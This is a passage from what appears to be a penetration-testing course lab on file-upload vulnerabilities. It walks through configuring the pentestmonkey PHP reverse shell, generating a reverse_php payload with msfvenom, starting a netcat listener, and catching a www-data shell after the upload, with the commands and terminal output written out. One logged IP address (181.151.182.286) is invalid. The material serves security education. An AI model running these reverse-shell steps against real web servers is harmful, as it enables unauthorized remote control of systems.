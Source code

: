 Finally, let's see how we can receive reverse shells through the vulnerable upload functionality. To do so, we should start by downloading a reverse shell script in the language of the web application. One reliable reverse shell for PHP is the [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell) PHP reverse shell. Furthermore, the same [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) we mentioned earlier also contains reverse shell scripts for various languages and web frameworks, and we can utilize any of them to receive a reverse shell as well.

Let's download one of the above reverse shell scripts, like the [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell), and then open it in a text editor to input our `IP` and listening `PORT`, which the script will connect to. For the `pentestmonkey` script, we can modify lines `49` and `50` and input our machine's IP/PORT:
```php
$ip = 'OUR_IP';     // CHANGE THIS
$port = OUR_PORT;   // CHANGE THIS
```
Next, we can start a `netcat` listener on our machine (with the above port), upload our script to the web application, and then visit its link to execute the script and get a reverse shell connection:
```
D3vil0per@htb[/htb]$ nc -lvnp OUR_PORT
listening on [any] OUR_PORT ...
connect to [OUR_IP] from (UNKNOWN) [188.166.173.208] 35232
# id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

As we can see, we successfully received a connection back from the back-end server that hosts the vulnerable web application, which allows us to interact with it for further exploitation. The same concept can be used for other web frameworks and languages, with the only difference being the reverse shell script we use.

### Generating Custom Reverse Shell Scripts

Just like web shells, we can also create our own reverse shell scripts. While it is possible to use the same previous `system` function and pass it a reverse shell command, this may not always be very reliable, as the command may fail for many reasons, just like any other reverse shell command.

This is why it is always better to use core web framework functions to connect to our machine. However, this may not be as easy to memorize as a web shell script. Luckily, tools like `msfvenom` can generate a reverse shell script in many languages and may even attempt to bypass certain restrictions in place. We can do so as follows for PHP:
```
D3vil0per@htb[/htb]$ msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
...SNIP...
Payload size: 3033 bytes
```

Once our `reverse.php` script is generated, we can once again start a `netcat` listener on the port we specified above, upload the `reverse.php` script and visit its link, and we should receive a reverse shell as well:
```
D3vil0per@htb[/htb]$ nc -lvnp OUR_PORT
listening on [any] OUR_PORT ...
connect to [OUR_IP] from (UNKNOWN) [181.151.182.286] 56232
# id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
